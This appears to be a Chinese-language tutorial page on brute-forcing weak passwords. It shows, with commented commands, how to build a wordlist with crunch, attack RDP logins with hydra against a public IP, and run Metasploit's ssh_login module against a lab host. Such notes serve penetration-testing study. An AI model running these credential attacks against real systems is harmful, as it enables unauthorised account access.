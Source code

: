 ```yaml
---
layout: default
title: 弱口令暴破
---
```


# crunch枚举密码本创建

```bash
crunch 3 3 0123456789 -o password1.txt
# crunch 咀嚼，生成密码本的工具
# 3 从3个字符的密码开始
# 3 到3个字符的密码结束
# 0123456789 生成密码的元素
# o 输出
```

# 使用hydra暴破

```bash
hydra -l administrator -P password1.txt 112.125.18.22 rdp
# l login 用户名
# P password 指密码本
# 112.125.18.22 目标IP
# rdp 目标端口
hydra -L name.txt -P password.txt 112.125.18.22 rdp
# L login 指用户名本
# 用户名本和密码本做笛卡尔积
```

# 使用msf ssh暴破工具

## ssh暴破模块

```bash
search ssh_login
```

Matching Modules

| #   | Name                                   | Disclosure Date | Rank   | Check | Description                  |
|:---:|:--------------------------------------:|:---------------:|:------:|:-----:|:----------------------------:|
| 0   | auxiliary/scanner/ssh/ssh_login        | .               | normal | No    | SSH Login Check Scanner      |
| 1   | auxiliary/scanner/ssh/ssh_login_pubkey | .               | normal | No    | SSH Public Key Login Scanner |

## 使用msf ssh暴破模块

```bash
use 0
# 1是对公钥进行暴破
show options
set rhosts 172.20.0.8
set username msfadmin
set user_file /root/ruokouling/users.txt
set pass_file /root/ruokouling/passwords.txt
show options
run
```
